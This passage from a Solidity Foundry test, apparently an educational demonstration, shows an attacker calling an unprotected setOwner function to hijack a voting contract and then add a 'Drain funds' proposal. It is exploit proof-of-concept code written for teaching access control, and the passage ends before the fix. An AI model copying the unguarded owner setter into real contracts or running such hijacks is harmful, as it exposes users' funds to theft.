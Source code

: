 ```solidity
    }

    /// @notice Test function demonstrating the normal behavior and the vulnerability exploit.
    /// @dev Uses the balanceLog modifier as required.
    function testExploit() public balanceLog {
        // Ensure the test address has enough ETH.
        vm.deal(address(this), 10 ether);

        // -------------------------------
        // Normal Behavior Demonstration
        // -------------------------------
        // As the legitimate owner, add a proposal.
        vm.startPrank(legitimateOwner);
        try vulnerableContract.addProposal("Proposal 1: Increase budget") {
            // accepted
        } catch {
            revert("Legitimate owner failed to add proposal");
        }

        // Extend the voting deadline.
        uint256 newDeadline = vulnerableContract.deadline() + 1 days;
        try vulnerableContract.extendDeadline(newDeadline) {
            // accepted
        } catch {
            revert("Legitimate owner failed to extend deadline");
        }
        vm.stopPrank();

        // -------------------------------
        // Exploitation by an Attacker
        // -------------------------------
        // The attacker calls the unprotected setOwner function to hijack the contract.
        vm.startPrank(attacker);
        try vulnerableContract.setOwner(attacker) {
            // Call succeeded, attacker is now the new owner.
        } catch {
            revert("Attacker failed to hijack ownership");
        }
        vm.stopPrank();

        require(vulnerableContract.owner() == attacker, "Ownership hijack did not occur");

        // As the new owner (attacker), add a malicious proposal.
        vm.startPrank(attacker);
        try vulnerableContract.addProposal("Malicious Proposal: Drain funds") {
            // accepted by attacker now
        } catch {
            revert("Attacker failed to add malicious proposal");
        }

        // And extend the deadline further.
        uint256 attackerDeadline = vulnerableContract.deadline() + 2 days;
        try vulnerableContract.extendDeadline(attackerDeadline) {
            // accepted
        } catch {
            revert("Attacker failed to extend deadline");
        }
        vm.stopPrank();

        // -------------------------------
        // Validation and Educational Fix Demonstration
        // -------------------------------
        // The vulnerability violates the principle of proper access control.
```